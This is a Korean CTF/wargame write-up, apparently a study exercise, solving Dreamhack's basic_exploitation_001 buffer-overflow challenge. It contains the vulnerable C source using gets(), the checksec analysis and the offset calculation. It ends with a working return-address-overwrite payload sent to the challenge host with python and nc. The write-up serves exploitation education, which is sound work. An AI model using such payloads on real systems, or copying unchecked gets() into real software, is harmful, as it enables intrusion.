


# Challenge2. 워게임 문제 풀기

# 문제

- 아래 워게임 중 하나를 선택해서 BOF 관련 입문 문제 1개 풀기
- 문제 풀이 과정을 writeup 형식으로 작성
    - 분석 과정 (checksec, 코드 분석)
- 취약점 발견 과정
- 익스플로잇 방법
- 풀이 성공 화면 캡처
- BOF 관련 워게임 목록 (3개 중 1개 선택)
    - [https://dreamhack.io/wargame/challenges/3](https://dreamhack.io/wargame/challenges/3) (basic_exploitation_001)
    - [https://pwnable.kr/play.php](https://pwnable.kr/play.php) (fd, bof)

# 풀이

## 1. basic_exploitation_001

문제에서 주어진 소스 코드는 아래와 같다. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void read_flag() {
    system("cat flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    gets(buf);

    return 0;
}
```

여기서, `gets(buf)`는 입력 길이를 전혀 검사하지 않아, 버퍼 오버플로우가 가능하다. 

이어서 checksec으로 보호 기법을 확인해보자. 



다음과 같은 취약점이 있음을 확인했다:

- No canary → 버퍼를 넘쳐도 탐지 안 됨
- No PIE → `read_flag()` 주소가 항상 고정
- NX enabled → 셸코드는 못 쓰지만, 이미 있는 함수 주소로 점프하는 건 가능

다음, offset을 계산해보자. 


buf의 시작 주소가 `ebp - 0x80` 이므로

```c
buf 시작  →  ebp        = 0x80 = 128바이트
ebp      →  ret address =         4바이트 (saved ebp)
─────────────────────────────────────
총 offset                = 132바이트
```

즉, 132바이트를 채우면 그 다음이 ret address이다. 

read_flag() 주소는 아래와 같이 확인할 수 있다. 



따라서, 페이로드는 아래와 같이 구성한다. 

```c
[  'A' * 132  ] + [ \xb9\x85\x04\x08 ]
      ↑                    ↑
  쓰레기값으로           read_flag() 주소
  buf + saved ebp        (little endian)
  를 가득 채움
```

```bash
# 최종 페이로드
python3 -c "import sys; sys.stdout.buffer.write(b'A'*132 + b'\xb9\x85\x04\x08')" | nc -q 1 host8.dreamhack.games 20171
```

사진과 같이 플래그를 획득할 수 있다. 

